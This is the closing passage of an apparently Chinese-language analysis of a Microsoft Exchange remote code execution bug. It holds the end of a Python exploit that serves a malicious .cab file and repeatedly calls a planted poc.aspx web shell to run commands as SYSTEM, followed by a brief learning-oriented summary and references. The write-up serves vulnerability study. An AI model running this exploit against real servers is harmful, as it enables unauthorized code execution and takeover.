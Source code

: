 ```python
            self.send_header('Content-Type', 'application/x-cab')
            self.send_header("Content-Length", len(p))
            self.end_headers()
            self.wfile.write(p)
            return

if __name__ == '__main__':
    if len(sys.argv) != 5:
        print("(+) usage: %s <target> <connectback> <revision> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.0.142 192.168.0.56 1337 mspaint" % sys.argv[0])
        print("(+) eg: %s 192.168.0.142 192.168.0.56 1337 \"whoami > c:/poc.txt\"" % sys.argv[0])
        sys.exit(-1)
    t = sys.argv[1]
    s = sys.argv[2]
    port = 8000
    r = sys.argv[3]
    c = sys.argv[4]
    print("(+) server bound to port %d" % port)
    print("(+) targeting: %s using cmd: %s" % (t, c))
    httpd = HTTPServer(('0.0.0.0', int(port)), CabRequestHandler)
    handlerthr = Thread(target=httpd.serve_forever, args=())
    handlerthr.daemon = True
    handlerthr.start()
    p = { "c" : "/c %s" % c }
    try:
        while 1:
            req = requests.get("https://%s/aspnet_client/poc.aspx" % t, params=p, verify=False)
            if req.status_code == 200:
                break
        print("(+) executed %s as SYSTEM!" % c)
    except KeyboardInterrupt:
        pass
```

### 0x04 总结

​	这是一个非常简单的漏洞，思路比较有趣，所以拿来了解学习一遍。上次听说ARP攻击还是一几年左右大家都在搞C段用Cain去改别人主页。整个的流程比较有趣，算是也给大家提供了一个新的挖掘思路。

​	接下来有时间就会分享一些本人关于Exchange的学习笔记以及历史漏洞分析。

### 参考

https://srcincite.io/blog/2021/08/25/pwn2own-vancouver-2021-microsoft-exchange-server-remote-code-execution.html

https://docs.microsoft.com/en-us/powershell/module/exchange/update-exchangehelp